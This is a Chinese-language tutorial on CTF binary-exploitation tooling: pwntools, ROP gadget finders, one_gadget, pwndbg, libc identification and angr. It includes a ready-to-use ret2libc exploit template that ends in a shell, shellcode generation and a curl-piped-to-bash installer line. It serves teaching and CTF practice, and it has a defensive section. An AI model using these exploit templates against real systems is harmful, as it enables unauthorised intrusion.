

# 二进制漏洞与利用基础（19）· 利用自动化与工具链

> [!abstract] TL;DR
> - **pwntools** 是 CTF pwn 题的标准 Python 框架，提供进程/远程连接、ELF 解析、ROP 链自动搜索、shellcode 生成、格式化字符串 payload 计算、`cyclic` 偏移定位等一站式能力。
> - **ROPgadget/ropper** 静态扫描 ELF 的 gadget；pwntools `ROP()` 对象可以自动组链，调用 `call()`/`find_gadget()` 即可生成对应 ROP 链字节序列。
> - **one_gadget** 在 libc 中寻找无需手动布置参数就能直接 `execve("/bin/sh")` 的魔法 gadget，但每个 gadget 都有约束条件（某寄存器须为 NULL 等），需在触发时验证。
> - **pwndbg/gef/peda** 是 GDB 的增强插件，提供 `heap`/`bins`/`tcache`/`vmmap`/`telescope` 等命令，是堆题调试的核心工具。
> - **libc-database** 与低 12 位比对法可以从泄露的单个 libc 地址识别 libc 版本，配合 **patchelf/LIEF** 在本地换 libc 环境复现远程靶机行为。
> - **angr** 符号执行可以自动求解约束、找到到达特定状态的路径，适合逆向未知输入格式或触发漏洞的条件，与 pwntools 配合构成自动化漏洞利用管线的前段。

---

## 概述与定位

掌握了本系列前 18 篇所讲的各类漏洞原理与利用技术之后，一个完整的 CTF pwn exploit 的开发流程通常是：

```
逆向分析二进制 → 识别漏洞类型 → 手动触发确认 → 编写 Python exploit → 调试验证 → getshell
```

每一个环节都有相应的工具加速与自动化。本篇系统梳理这条工具链上最重要的工具：从 pwntools 的全景功能，到 ROP 自动组链工具，再到 one_gadget、调试器插件、libc 版本识别，最后简述 angr 符号执行的定位与入口。

理解工具原理、知道它们各自解决哪类问题、何时选用哪种组合，是从"看懂别人的 exp"到"独立写出 exp"的关键一跃。

---

## 原理与机制

### pwntools 的核心抽象

pwntools（`pip install pwntools`，GitHub：`Gallopsled/pwntools`）的设计哲学是**让 exploit 代码尽量短、尽量接近"描述意图"而非"描述字节操作"**。其核心抽象层次从低到高：

1. **字节操作层**：`p64`/`p32`/`p16`/`p8`（打包整数为字节）、`u64`/`u32`（解包字节为整数）、`flat`（将多个值拼接为字节串，自动处理打包格式）。

2. **连接层**：`process("./vuln")`（本地进程）、`remote("host", port)`（远程 TCP）、`gdb.attach(p)`（挂调试器）。三者接口统一，切换只需改一行。

3. **二进制解析层**：`ELF("./vuln")` 解析 ELF，提供 `elf.symbols['func']`、`elf.got['printf']`、`elf.plt['system']`、`elf.bss()`、`elf.read(addr, n)` 等接口。

4. **自动化层**：`ROP(elf)` 自动 gadget 搜索与链构造；`shellcraft` 生成 shellcode；`fmtstr_payload` 计算格式化字符串 payload；`cyclic`/`cyclic_find` 自动寻找栈溢出偏移。

5. **上下文层**：`context.arch`/`context.os`/`context.log_level` 全局设置，影响所有工具的行为（如字节序、指针宽度）。

### ROP 链的自动化原理

ROPgadget 和 ropper 的核心算法是：
1. 反汇编 ELF 的所有可执行段。
2. 以每个 `ret`（`0xc3`）/`jmp`/`call` 指令为结尾，向前回溯 N 条指令，枚举所有可能的 gadget。
3. 建立 gadget 数据库，支持按指令模式查询。

pwntools `ROP(elf)` 在此基础上更进一步：它能根据目标函数签名自动搜索"把参数放入对应寄存器的 gadget 序列"，例如：

```python
rop = ROP(elf)
rop.call('write', [1, elf.got['write'], 8])
# 自动搜索 pop rdi; ret / pop rsi; ret / pop rdx; ret 等 gadget，组装链
```

### one_gadget 的原理

`one_gadget` 工具（`gem install one_gadget` 或 `pip install one_gadget`）分析 libc ELF，寻找满足以下条件的位置：
- 执行到该位置后**不需要任何额外操作**即可触发 `execve("/bin/sh", NULL, NULL)`。
- 通常是 `do_system` 内部某处，或 glibc 的 `__libc_message` 等函数中意外构造的片段。

每个 gadget 都有约束条件，例如：
- `[rsp+0x30] == NULL`（某个栈位置必须为 NULL）
- `rax == NULL`
- `rdx == NULL 或 rdx 可被控制`

在不同的调用路径中，这些条件满足的概率不同。one_gadget 会列出所有候选及其约束，实战中通常逐一尝试，或在调试器中检查触发点的寄存器状态来选择最合适的那个。

### 调试器插件的定位

GDB 原生命令对堆和二进制利用调试支持有限；pwndbg/gef/peda 三款插件各有侧重：

- **pwndbg**（最常用于 CTF）：专为二进制利用设计，提供最完整的堆可视化（tcache/fastbins/smallbins/largebins/unsortedbin），输出清晰美观；`telescope` 命令自动解析指针链。
- **gef**（GDB Enhanced Features）：跨平台支持好（ARM/MIPS/RISC-V），`heap bins` 输出同样清晰，`aslr` 命令可快速开关 ASLR。
- **peda**（老牌）：有 `pattern create`/`pattern search` 用于栈偏移定位；功能较简单但轻量。

三者不能同时加载，通常只选其一。

### libc 版本识别原理

libc 中不同版本的函数偏移不同，但同版本的偏移固定。当泄露出 libc 中任意一个地址（如 `puts@got` 解引用后的值），其**低 12 位**（页内偏移，不受 ASLR 影响）与 libc 版本强绑定。

libc-database（GitHub：`niklasb/libc-database`）维护了大量 Linux 发行版的 libc 库的函数偏移数据库。查询流程：

1. 通过 format string 或 GOT 泄露某函数（如 `puts`）在内存中的地址。
2. 取低 12 位（低 3 位十六进制）。
3. 在 libc-database 中查询"puts 偏移的低 12 位为 XXX 的 libc 版本"。
4. 匹配到版本后，计算 `libc_base = leaked_puts - libc.symbols['puts']`，进而得到 `system`、`__free_hook`、`_IO_list_all` 等所有符号地址。

线上服务：`libc.blukat.me` 提供 Web 查询界面；`pwntools` 的 `LibcSearcher` 模块（第三方扩展）可在 Python 脚本中直接集成。

---

## 结构/算法/伪代码详解

### pwntools 常用 API 速查

```python
from pwn import *

# ── 上下文设置 ──────────────────────────────────────────
context.arch       = 'amd64'   # 或 'i386', 'arm', 'aarch64'
context.os         = 'linux'
context.log_level  = 'debug'   # 'info'(默认) / 'debug' / 'warning'

# ── 连接 ────────────────────────────────────────────────
p = process("./vuln")                        # 本地进程
p = remote("pwn.example.com", 9001)          # 远程
p = process(["./vuln"], env={"LD_PRELOAD": "./libc.so.6"})  # 替换 libc

# ── 收发数据 ─────────────────────────────────────────────
p.send(b"data")              # 发送字节（不加换行）
p.sendline(b"data")          # 发送字节 + '\n'
p.sendafter(b"prompt:", payload)   # 等到出现 "prompt:" 再发
p.recvline()                 # 接收一行（含 '\n'）
p.recvuntil(b"marker")       # 接收直到出现 marker
p.recv(8)                    # 精确接收 8 字节
addr = u64(p.recv(8))        # 接收 8 字节并解包为 u64
p.interactive()              # 进入交互模式（getshell 后用）

# ── 整数打包/解包 ────────────────────────────────────────
p64(0xdeadbeef)              # → b'\xef\xbe\xad\xde\x00\x00\x00\x00'
u64(b'\xef\xbe\xad\xde\x00\x00\x00\x00')  # → 0xdeadbeef
p32(0x1234)                  # 小端 32 位
flat(0xdeadbeef, 0xcafebabe)  # 等同于 p64()+p64()，更简洁

# ── ELF 解析 ────────────────────────────────────────────
elf = ELF("./vuln")
libc= ELF("./libc.so.6")

elf.symbols['main']          # 函数/变量地址
elf.got['puts']              # GOT 条目地址
elf.plt['system']            # PLT 桩地址
elf.bss()                    # BSS 段起始地址
elf.search(b"/bin/sh")       # 搜索字节序列，返回迭代器
next(libc.search(b"/bin/sh\x00"))  # libc 中的 "/bin/sh" 地址

# ── cyclic：自动定位栈溢出偏移 ────────────────────────────
cyclic(200)                  # 生成 200 字节的 de Bruijn 序列
cyclic_find(0x6161616b)      # 从崩溃时的 rsp/eip 值找偏移
# 配合 gdb：crash 后 "x/wx $rsp" 得到值，代入 cyclic_find()

# ── shellcraft：生成 shellcode ─────────────────────────────
context.arch = 'amd64'
sc = shellcraft.amd64.linux.sh()   # execve("/bin/sh",["/bin/sh"],0) shellcode
sc_bytes = asm(sc)                  # 汇编为字节
print(shellcraft.amd64.linux.cat("/etc/flag"))  # 读取文件的 shellcode

# ── fmtstr_payload：格式化字符串自动 payload ────────────────
# 参数：offset（格式化参数在栈上的偏移索引），writes={目标地址: 写入值}
payload = fmtstr_payload(7, {elf.got['exit']: elf.symbols['win']})
# 自动计算 %Nc%N$n 的序列，将 win 地址写入 exit@GOT

# ── ROP 自动链 ──────────────────────────────────────────
rop = ROP(elf)
rop.call('puts', [elf.got['puts']])  # 泄露 puts@GOT
rop.call(elf.symbols['main'])         # 返回 main
chain = rop.chain()                   # 生成字节序列
print(rop.dump())                     # 打印可读的 gadget 列表
```

### ROP 自动化工具对比

```bash
# ── ROPgadget ───────────────────────────────────────────
ROPgadget --binary ./vuln --rop         # 列举所有 ROP gadget
ROPgadget --binary ./libc.so.6 --string "/bin/sh"  # 搜字符串
ROPgadget --binary ./vuln --opcode "58c3"  # 搜机器码（pop rax; ret = 58 c3）
ROPgadget --binary ./vuln --depth 5     # 调整向前回溯深度（默认 10）
ROPgadget --binary ./vuln --rop | grep "pop rdi"  # 过滤

# ── ropper ──────────────────────────────────────────────
ropper -f ./vuln --search "pop rdi; ret"
ropper -f ./vuln --search "syscall; ret"
ropper -f ./libc.so.6 --chain execve   # 自动生成 execve gadget 链（实验性）
ropper -f ./vuln --badbytes 00 0a      # 排除含坏字节的 gadget

# ── pwntools ROP() 自动链 ──────────────────────────────
rop = ROP([elf, libc])                 # 同时在 elf 和 libc 中搜索
rop.raw(0xdeadbeef)                    # 插入原始值
rop.call('execve', [next(libc.search(b'/bin/sh\x00')), 0, 0])
print(rop.dump())
```

### one_gadget 使用流程

```bash
# 安装
gem install one_gadget       # Ruby gem
# 或：pip install one_gadget-python（Python 包装版，功能略少）

# 查找 libc 中的 one_gadget
one_gadget ./libc-2.31.so
# 输出示例：
# 0xe3afe  execve("/bin/sh", r15, r12)
#          constraints:   [r15] == NULL || r15 == NULL
#                         [r12] == NULL || r12 == NULL
#
# 0xe3b01  execve("/bin/sh", r15, rdx)
#          constraints:   [r15] == NULL || r15 == NULL
#                         [rdx] == NULL || rdx == NULL
#
# 0xe3b04  execve("/bin/sh", rsi, rdx)
#          constraints:   [rsi] == NULL || rsi == NULL
#                         [rdx] == NULL || rdx == NULL

# 列出所有 gadget（含较难满足的约束）
one_gadget ./libc.so.6 --level 2

# 在 pwntools 中使用
import subprocess
og_raw = subprocess.check_output(["one_gadget", "--raw", "./libc.so.6"]).decode()
one_gadgets = [int(x, 16) for x in og_raw.split()]
og = libc_base + one_gadgets[0]   # 通常先尝试第一个
```

**约束条件何时满足？**

不同触发路径有不同的寄存器状态：
- 通过 `__malloc_hook` 触发（已无效于 glibc 2.34）：rax 通常非 NULL，rdx 随机，满足约束难；
- 通过 FSOP `__overflow` 触发：第一参数（rdi）为 `fp` 指针，rdx/rsi 取决于 `_IO_flush_all_lockp` 的调用帧状态，通常 rdx 可能为 NULL；
- 通过格式化字符串写 `__exit_funcs`/`__stack_chk_fail`：寄存器更难预测，需调试确认。

实战中用 pwndbg 在断点触发前检查 `info registers` 来验证哪个 one_gadget 的约束已满足。

### pwndbg 核心命令

```bash
# 安装 pwndbg
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh

# ── 启动 ────────────────────────────────────────────────
gdb ./vuln
gdb -q -x script.gdb           # 使用 gdb 脚本
gdb -p <pid>                    # 附加到运行中的进程

# ── 内存查看 ────────────────────────────────────────────
x/20gx $rsp                     # 查看栈（20 个 64 位十六进制）
x/s 0xaddress                   # 查看字符串
telescope $rsp                  # pwndbg 专属：递归解析指针链，显示最终指向的值/符号
telescope 0xaddress 30          # 显示 30 行

# ── 堆调试 ─────────────────────────────────────────────
heap                            # 显示所有堆 chunk（含 size、flag、地址）
bins                            # 显示所有 free list（tcache/fast/small/large/unsorted）
tcache                          # 单独显示 tcache 各 size class 的链表
fastbins                        # 显示 fastbins
arenas                          # 显示所有 arena（主 arena + 线程 arena）
vis_heap_chunks                 # 可视化堆布局（pwndbg 特有，非常直观）
try_free 0xaddr                 # 模拟 free(addr)，检查是否会触发 assert

# ── 地址映射 ────────────────────────────────────────────
vmmap                           # 显示内存映射（类似 /proc/pid/maps），带权限标注
vmmap libc                      # 只显示 libc 的映射
piebase                         # 显示 PIE 基址（ELF load base）

# ── ROP/gadget ──────────────────────────────────────────
rop --grep "pop rdi"            # 在已加载模块中搜索 gadget（pwndbg 集成）

# ── 流程控制 ────────────────────────────────────────────
b *0x401234                     # 在地址打断点
b main                          # 在符号打断点
r <<< $(python3 -c "print('A'*100)")  # 用 Python 生成输入
ni                              # next instruction（不进入 call）
si                              # step instruction（进入 call）
c                               # continue
fin                             # 运行到当前函数返回
```

### libc 版本识别与本地环境替换

```bash
# ── 方法 1：libc-database 本地搜索 ──────────────────────
git clone https://github.com/niklasb/libc-database
cd libc-database
./get ubuntu   # 下载 Ubuntu 各版本 libc（需时较长）
./find puts 0x7f3d80a4bab0   # 用泄露的绝对地址查找（需知道基址）
./find puts 0xab0            # 用低 12 位（页内偏移）查找（推荐，不需要基址）

# ── 方法 2：线上服务 ─────────────────────────────────────
# 访问 https://libc.blukat.me
# 输入：函数名 + 地址低 3 位十六进制 → 返回匹配的 libc 版本列表

# ── 方法 3：pwntools LibcSearcher（需安装扩展）───────────────
from LibcSearcher import LibcSearcher
obj = LibcSearcher("puts", leaked_puts)   # 基于低 12 位查库
libc_base = leaked_puts - obj.dump("puts")
system = libc_base + obj.dump("system")

# ── 本地换 libc（patchelf）────────────────────────────────
# 下载目标 libc（如 libc-2.31.so）及对应的 ld-2.31.so
patchelf --set-interpreter ./ld-2.31.so ./vuln   # 替换动态链接器
patchelf --replace-needed libc.so.6 ./libc-2.31.so ./vuln  # 替换 libc

# 验证
ldd ./vuln   # 确认指向本地 libc

# ── 用 pwninit 自动化（推荐）────────────────────────────
pip install pwninit
pwninit   # 在题目目录运行，自动下载 ld、patch binary
```

### 典型 CTF pwn exploit 骨架（leak → 算基址 → getshell）

下面给出一个完整的、可直接作为模板使用的 pwntools exploit 骨架，覆盖"泄露 libc 地址 → 计算基址 → one_gadget/system getshell"的标准流程：

```python
#!/usr/bin/env python3
"""
典型 CTF pwn exploit 骨架
目标：ret2libc，先泄露 puts@GOT，再 ret2main，最后 system("/bin/sh")
"""
from pwn import *

# ── 环境配置 ────────────────────────────────────────────
context.arch       = 'amd64'
context.os         = 'linux'
context.log_level  = 'info'   # 调试时改为 'debug'

LOCAL = True   # True=本地，False=远程
BINARY = "./vuln"
LIBC   = "./libc.so.6"

elf  = ELF(BINARY, checksec=False)
libc = ELF(LIBC,   checksec=False)
rop  = ROP(elf)

if LOCAL:
    p = process(BINARY)
    # p = process(BINARY, env={"LD_PRELOAD": LIBC})  # 强制换 libc
else:
    p = remote("pwn.example.com", 9001)

# ── 定位溢出偏移（一次性） ───────────────────────────────
# 事先用 cyclic(200) 送入，从崩溃的 rsp 值用 cyclic_find() 得到
OFFSET = 72   # ret 地址距离缓冲区起点的字节数

# ── 第一阶段：泄露 puts@GOT → 得到 libc 基址 ────────────
def stage1_leak():
    rop1 = ROP(elf)
    # 调用 puts(puts@GOT) 打印 puts 在内存中的真实地址
    rop1.call('puts', [elf.got['puts']])
    # 返回 main 再来一次
    rop1.call('main')

    payload1  = b"A" * OFFSET
    payload1 += rop1.chain()

    p.sendlineafter(b"Input: ", payload1)   # 等待提示后发送

    # 接收泄露的 8 字节（puts 地址，小端）
    leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
    log.success(f"Leaked puts @ {hex(leaked_puts)}")

    libc_base = leaked_puts - libc.symbols['puts']
    log.success(f"libc base @ {hex(libc_base)}")
    return libc_base

# ── 第二阶段：用 libc 基址 getshell ─────────────────────
def stage2_shell(libc_base):
    libc.address = libc_base
    system  = libc.symbols['system']
    binsh   = next(libc.search(b"/bin/sh\x00"))

    # 方法 A：ret2system（最通用）
    rop2 = ROP([elf, libc])
    rop2.call('system', [binsh])
    payload2  = b"A" * OFFSET
    payload2 += rop2.chain()

    # 方法 B：one_gadget（如果约束满足，更简洁）
    # one_gadgets = [0xe3afe, 0xe3b01, 0xe3b04]  # one_gadget 输出的偏移
    # og = libc_base + one_gadgets[0]
    # payload2 = b"A" * OFFSET + p64(og)

    p.sendlineafter(b"Input: ", payload2)

# ── 主流程 ───────────────────────────────────────────────
libc_base = stage1_leak()
stage2_shell(libc_base)
p.interactive()   # 进入交互 shell
```

### angr 符号执行：定位漏洞触发路径

angr（`pip install angr`）是一个 Python 二进制分析框架，核心能力是**符号执行**（Symbolic Execution）：将程序输入视为"符号变量"而非具体值，通过约束求解器（z3）探索所有可能的执行路径，找到到达特定状态所需的具体输入。

在 pwn 场景中，angr 常用于：
1. **找漏洞触发条件**：目标是让程序执行到 `system("sh")` 或类似代码，angr 自动求解输入。
2. **绕过复杂校验**：程序有一系列 if-else 校验（魔数、checksum 等），angr 可以在不读懂逻辑的情况下求解出能通过的输入。
3. **路径探索**：找到从 main 到某个危险函数（如 `gets`）的执行路径。

```python
import angr, claripy

proj = angr.Project("./vuln", auto_load_libs=False)

# 符号输入：64 字节未知数据
sym_input = claripy.BVS("input", 64 * 8)

# 初始状态：从 main 开始，标准输入为符号值
state = proj.factory.entry_state(
    stdin=angr.SimFile("/dev/stdin", content=sym_input)
)

simgr = proj.factory.simulation_manager(state)

# 探索：找到到达 win 函数（0x401234）的路径，避免到达 lose（0x401300）
simgr.explore(
    find=0x401234,     # 目标地址（win/shell）
    avoid=0x401300     # 应避免的地址（exit/die）
)

if simgr.found:
    solution = simgr.found[0].posix.dumps(0)  # 提取满足条件的输入
    print(f"Found: {solution}")
```

angr 不擅长处理复杂的堆操作或 I/O 密集程序，对于 glibc 堆题的深层利用分析能力有限；实战中多用于**前置的输入格式逆向和触发路径分析**，后续利用链仍靠手工+pwntools 完成。更深入的 angr 使用参见系列 45 章（符号执行与自动化漏洞挖掘）。

---

## 工具视角与实战

### 典型 CTF pwn 解题流水线



### 工具版本与安装速查

```bash
# pwntools（Python 3.8+）
pip install pwntools
# 验证
python3 -c "from pwn import *; print(pwnlib.__version__)"

# ROPgadget
pip install ROPgadget
ROPgadget --version

# ropper
pip install ropper
ropper --version

# one_gadget（需 Ruby）
gem install one_gadget
one_gadget --version

# pwndbg
git clone https://github.com/pwndbg/pwndbg && cd pwndbg && ./setup.sh

# gef（与 pwndbg 二选一）
bash -c "$(curl -fsSL https://gef.blah.cat/sh)"

# angr
pip install angr

# patchelf（Ubuntu）
sudo apt install patchelf

# pwninit（自动化 patch 题目 binary）
cargo install pwninit   # 需要 Rust 工具链
# 或下载预编译二进制：github.com/io12/pwninit/releases
```

### 调试技巧：pwntools 与 GDB 联调

```python
from pwn import *

p = process("./vuln")

# 方法 1：attach 到运行中的进程
gdb.attach(p, """
    b *0x401234
    c
""")

# 方法 2：gdb.debug 直接在 gdb 中启动
p = gdb.debug("./vuln", """
    set follow-fork-mode child
    b main
    c
""")

# 方法 3：在 payload 发送前暂停，手动 attach
input("Press Enter to send payload (attach gdb now: gdb -p {})".format(p.pid))
p.sendline(payload)
```

### 常见坑与排查

| 问题 | 可能原因 | 排查命令 |
|------|----------|----------|
| ROP 链打本地通但打远程不通 | libc 版本不同，偏移对不上 | `libc-database` 重新识别 |
| one_gadget 全部失败 | 约束寄存器在触发时非 NULL | pwndbg `info reg` 在触发前检查 |
| `p.recv()` 超时 | 程序崩溃但没有输出 | `p.recvall(timeout=1)` + 查看 coredump |
| cyclic_find 返回 -1 | 崩溃地址不在 cyclic 序列中 | 检查是否有 canary，是否 SIGSEGV 在别处 |
| pwndbg `heap` 命令报错 | 未 attach 到真实进程或 stripped binary | `set debug-file-directory` 指定符号 |
| angr 路径爆炸（很慢） | 循环 / 大量分支 | 用 `avoid` 剪枝，或改用 `veritesting` |

---

## 安全性与正确使用

> [!caution] 教学声明与使用限制
> **本篇所介绍的工具（pwntools、ROPgadget、one_gadget、pwndbg、angr 等）均为开源的合法安全研究工具，其设计目的是辅助授权的安全测试、漏洞研究与 CTF 竞赛学习。** 本文所有代码示例仅在本地自建靶机、CTF 竞赛平台或已取得书面授权的环境中适用。
>
> 适用场景：
> - CTF 竞赛（pwn.college、CTFd、picoCTF、XCTF 等平台的官方题目）
> - 高校信息安全课程实验
> - 安全研究人员在授权的漏洞评估项目中使用
> - 企业安全团队对自有产品进行渗透测试
>
> **严禁将本篇工具或技术用于任何未经授权的系统的测试、攻击或渗透，违者承担相应法律责任。**

### 防御视角：工具能告诉我们什么

了解攻击工具对防御同样至关重要：

**ROPgadget/ropper 的扫描结果揭示二进制的 gadget 密度**：对于安全敏感的组件，编译时使用 `-fcf-protection=full`（Intel CET IBT）可以使大量间接跳转 gadget 因缺少 `endbr64` 前缀而失效，大幅提升 ROP 利用难度。

**one_gadget 的存在说明 libc 内部有可被利用的状态机**：这不是 bug 而是复杂代码逻辑的副产品。防御方向是在容器/沙箱中通过 seccomp 限制 `execve` 系统调用，即使控制流被劫持也无法执行 shell。

**angr 可以自动化发现触发条件**：对抗 angr 的方法包括加入大量路径依赖的运行时状态（与时间/PID/随机数相关的校验），使符号执行的路径爆炸，大幅增加分析成本。但对于已知格式的标准输入处理逻辑，angr 通常能在分钟级别内求解。

**pwndbg 揭示堆的内部状态**：安全开发者可以参考 `vis_heap_chunks` 的可视化方式，在关键操作前后检查堆布局是否符合预期，这对发现堆溢出或 UAF 类型的 bug 极为有效。

---

## 小结

1. **pwntools 是 CTF pwn 的标准基础设施**：`process`/`remote`/`ELF`/`ROP`/`shellcraft`/`fmtstr_payload`/`cyclic` 涵盖从连接到 payload 生成的全流程；熟练使用 `sendlineafter`/`recvuntil`/`p64`/`u64`/`flat` 可以让 exploit 脚本保持简洁可读。

2. **ROP 自动化工具分三层使用**：ROPgadget/ropper 做静态扫描与人工验证；pwntools `ROP()` 对象做自动链组装；遇到 gadget 极度匮乏时退回手工 SROP（[[15.SROP与ret2csu]]）或 ret2csu。

3. **one_gadget 是 libc 版本与触发路径的函数**：不要盲目使用第一个，先在 pwndbg 中验证约束是否满足，再选择最合适的候选；glibc 2.34+ 中 one_gadget 依然有效，是 FSOP 终点的常见替代。

4. **pwndbg 的 `heap`/`bins`/`vis_heap_chunks`/`telescope`/`vmmap` 是堆题调试的核心命令组合**：能快速定位伪造 chunk 是否被正确放入链表、libc 基址是否计算正确、fake FILE 结构是否布置到预期地址。

5. **libc 识别是远程 exploit 的关键前置步骤**：低 12 位比对法（本地 libc-database 或 libc.blukat.me）配合 patchelf 在本地复现远程环境，是稳定打远程的必要工程实践；pwninit 自动化了这一流程的大部分。

6. **angr 是前置分析工具，不是 exploit 的核心**：用于求解复杂输入约束、找到漏洞触发路径，后续利用链仍需手工构造；在符号执行遇到路径爆炸时，要用 `avoid` 剪枝或切换为具体执行模式。

---

## 相关阅读

- [[06.ROP入门]] — ROP 基础，理解自动化工具生成链的依据
- [[08.格式化字符串漏洞]] — `fmtstr_payload` 的应用场景
- [[15.SROP与ret2csu]] — gadget 匮乏时的替代方案
- [[18.FSOP与IO_FILE劫持]] — pwntools 构造 fake FILE 的实战应用
- [[13.现代利用与信息泄露]] — libc 泄露，工具链的必要前置
- [[17.House-of堆利用系列]] — pwndbg 堆命令的典型使用场景
- [[12.缓解机制总览]] — 了解工具需要绕过哪些保护
- [[00.二进制漏洞与利用基础总览]] — 本系列导航

---

⬅️ 上一篇 [[18.FSOP与IO_FILE劫持]] ｜ 🏠 [[00.二进制漏洞与利用基础总览]] ｜ 下一篇 [[20.Linux内核利用入门]] ➡️
